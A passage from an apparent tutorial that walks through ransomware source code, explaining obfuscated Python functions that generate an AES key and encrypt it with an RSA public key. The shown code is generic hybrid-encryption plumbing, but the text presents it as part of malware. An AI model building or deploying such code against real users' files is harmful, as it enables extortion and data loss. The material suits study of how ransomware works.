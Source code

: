 * * *

### **b. Function** `**gn_k**` **(Generate AES Key)**

    def gn_k():
        return get_random_bytes(key_len)
    

### **What does it do?**

Generates a 32-byte (256-bit) AES key using the `get_random_bytes` function from the `Crypto` library.

### **Why is it used?**

The AES key is the secret required to encrypt and decrypt files. Generating a random key ensures that each execution of the malware is unique.

* * *

**6\. Using RSA for Asymmetric Encryption**
-------------------------------------------

### **a. Function** `**ld_puk**` **(Load RSA Public Key)**

    # Load RSA public key (Obfuscated)
    def ld_puk(p):
        try:
            with open(p, 'rb') as f:
                puk = RSA.import_key(f.read())
            return puk
        except Exception as e:
            logging.error(f"Error loading RSA key: {e}")
    

### **What does it do?**

Loads an RSA public key from a `.pem` file.

### **Why is it used?**

The RSA public key is used to encrypt the AES key, ensuring that only the holder of the corresponding private key can decrypt it.

* * *

### **b. Function** `**enc_k**` **(Encrypt AES Key with RSA)**

    # Encrypt AES key with RSA (Obfuscated)
    def enc_k(symk, rsapub):
        try:
            crsa = PKCS1_OAEP.new(rsapub)
            return crsa.encrypt(symk)
        except Exception as e:
            logging.error(f"Error encrypting key: {e}")
    